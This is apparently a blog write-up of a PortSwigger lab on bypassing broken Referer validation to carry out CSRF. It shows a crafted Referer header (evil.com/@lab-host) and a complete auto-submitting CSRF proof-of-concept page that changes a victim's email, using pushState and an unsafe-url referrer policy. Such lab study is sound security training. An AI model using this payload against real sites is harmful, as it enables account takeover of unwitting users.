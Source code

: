 ```yaml
---
layout: post
title:  "CSRF with broken Referer validation"
date:   2024-10-04 09:39:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Just like the other CSRF labs, we have a unctionality to update the email by looking into `My Account` tab 

![]({{ site.baseurl }}/assets/images/csrf-26.png)

I thought of removing the values of `Referrer` header and analyse the response.. So I did this by removing the values of the particular, sent the request and responded with `"Invalid referer header"`

![]({{ site.baseurl }}/assets/images/csrf-27.png)

In the `Referrer` header, I replaced with the following `http://evil.com/@0a78008403f3e9d780764e88003000c0.web-security-academy.net` and the reason is `evil.com` is some random string from my side and for example I gave it.. Then you can observe a lab URL that's the thing being validated here and sent the request, as a response it responded with a `302` meaning our email got updated 

![]({{ site.baseurl }}/assets/images/csrf-28.png)

Everything goes well right, now we can build a CSRF POC and update the `pushState` by adding our payload that we used in the referrer header 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a78008403f3e9d780764e88003000c0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/@0a78008403f3e9d780764e88003000c0.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now, In the exploit server.. Paste the following POC and then in the header.. Add like `Referrer-Policy: unsafe-url` where it will allow the full url through the referrer header.. Then `Store -> Deliver the exploit to victim` which will actually solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-29.png)